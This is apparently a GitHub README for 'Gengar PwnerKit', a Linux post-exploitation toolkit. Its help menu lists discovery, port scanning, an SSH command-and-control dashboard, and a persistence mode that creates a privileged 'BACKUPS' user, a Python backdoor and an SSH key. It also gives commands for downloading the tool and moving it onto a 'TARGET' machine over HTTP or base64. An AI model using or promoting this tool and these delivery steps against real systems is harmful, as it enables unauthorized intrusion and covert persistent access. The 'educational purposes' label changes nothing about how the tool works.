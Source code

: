 # Gengar PwnerKit

<div>
    <img src="https://img.shields.io/badge/-Linux-grey?logo=Linux&logoColor=white" width="70px">
    <img src="https://img.shields.io/badge/-Bash-green?logo=GNU-Bash&logoColor=white" width="70px">
    <img src="https://img.shields.io/badge/-Python3-3776AB?logo=Python&logoColor=white" width="90px">
</div>

## Persistence [TA0003](https://attack.mitre.org/tactics/TA0003/) | Privilege Escalation [TA0004](https://attack.mitre.org/tactics/TA0004/) | Discovery [TA0007](https://attack.mitre.org/tactics/TA0007/)
 
                    ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)

---
 
## About Gengar PwnerKit
### [+] Educational purposes
### [+] Rewritten and more objective code
### [+] New Features
### [+] Better usability
---

## How to Install?
```
wget -q https://raw.githubusercontent.com/h0ru/gpk/main/bin/gpk -O gpk ; chmod +x gpk
```
---
## Help Menu
```
 [*] HELP MENU

     [+] -h --help  -   HELP MENU (Show these help)
     [+] -m         -   MACHINE INFORMATIONS (Show Hardware/System Infos)
     [+] -ds        -   DEEP SEARCH (Show Tools, Crontab Files, SUID Binaries, Writable Folders)
     [+] -n         -   NETWORK (Show Network Information and use Ping Sweep and Port Scan modes)
     [+] -c2        -   CHACAL C2 (Manage SSH Connections Through a Dashboard)
     [+] -p         -   PERSISTENCE (Create a Privileged User Called BACKUPS, Create a Backdoor in Python3 and an SSH KEY)
```
---

## Check out some images
### [IMAGES](https://github.com/h0ru/gpk/blob/main/IMAGES.md)
---

## Sending to The Target
### Local Network
```
(KALI)
python3 -m http.server 80

(TARGET)
wget ip/gpk -O gpk ; chmod +x gpk
```
### Via BASE64
```
(KALI)
cat gpk | base64 -w0

(TARGET)
nano gpk.b64 (paste the base64 gpk code)

base64 -d gpk.b64 > gpk ; chmod +x gpk
```
---
